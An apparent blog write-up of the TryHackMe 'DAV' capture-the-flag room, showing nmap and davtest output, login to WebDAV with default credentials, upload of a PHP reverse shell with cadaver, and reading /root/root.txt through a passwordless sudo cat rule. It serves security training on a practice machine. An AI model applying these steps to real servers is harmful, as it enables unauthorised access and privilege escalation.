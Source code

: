 ```yaml
---
layout: post
title: DAV Writeup
date: 2020-09-17 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, owasp10, sudo] # add tag
---
```


## Description

The Following Post is writeup of DAV room of tryhackme <https://tryhackme.com/room/bsidesgtdav>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | stuxnet

## Summary

The machine have single port open 80. It got default page after dirbust we can see Webdav with default creds.
We can upload and execute php shell. www-data can execute cat as sudo so we can see root.txt.

## Walkthrough

### Enumeration

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $nmap -sC -sV 10.10.229.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-17 15:20 IST
Nmap scan report for 10.10.229.29
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.23 seconds
```

so from nmap scan we got one port only
Let's see what we can do.

#### port 80

![Webpage](/assets/img/dav/defaultapache.png)

![ffuf](/assets/img/dav/ffufoutput.png)

so we got webdav dir but it requires creds we don't have username  <br />
we can try default creds of webdav (user wampp and password xampp) <br />
okay we got directory listing let's check how we can exploit webdav <br />
so we can upload files using cadaver in webdav<br />
So let's run davtest to see what we can upload

![creds](/assets/img/dav/defaultcreds.png)

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $davtest -url http://10.10.229.29/webdav/ -auth wampp:xampp
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.229.29/webdav
********************************************************
NOTE    Random string for this session: s1y0c7
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.229.29/webdav/DavTestDir_s1y0c7
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jsp
PUT     asp     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.asp
PUT     cgi     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cgi
PUT     jhtml   SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jhtml
PUT     php     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
PUT     shtml   SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.shtml
PUT     cfm     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cfm
PUT     pl      SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.pl
PUT     html    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
PUT     aspx    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.aspx
PUT     txt     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    asp     FAIL
EXEC    cgi     FAIL
EXEC    jhtml   FAIL
EXEC    php     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
EXEC    shtml   FAIL
EXEC    cfm     FAIL
EXEC    pl      FAIL
EXEC    html    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
EXEC    aspx    FAIL
EXEC    txt     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.229.29/webdav/DavTestDir_s1y0c7
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jsp
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.asp
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cgi
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jhtml
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.shtml
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cfm
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.pl
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.aspx
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
```

Php is uploadable and executable.

#### Exploitation

so we are now going to upload a reverse shell.

```bash
┌─[✗]─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $cadaver http://10.10.229.29/webdav/
Authentication required for webdav on server `10.10.229.29':
Username: xampp
Password:
Authentication required for webdav on server `10.10.229.29':
Username: wampp
Password:
dav:/webdav/> help
Available commands:
 ls         cd         pwd        put        get        mget       mput      
 edit       less       mkcol      cat        delete     rmcol      copy      
 move       lock       unlock     discover   steal      showlocks  version   
 checkin    checkout   uncheckout history    label      propnames  chexec    
 propget    propdel    propset    search     set        open       close     
 echo       quit       unset      lcd        lls        lpwd       logout    
 help       describe   about     
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put phpshell.php
Uploading phpshell.php to `/webdav/phpshell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/>
```

uploaded php shell let's execute it

we have pwncat listening.

#### PrivEsc

```bash
sudo -l

[+] Testing 'sudo -l' without password & /etc/sudoers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

sudo cat /root/root.txt
```
Hmmm we can read root.txt using sudo
and we get the root file.

### Reviews

Easy Machine everything is straight forward. I stuck at webdav login but turns out to be default.
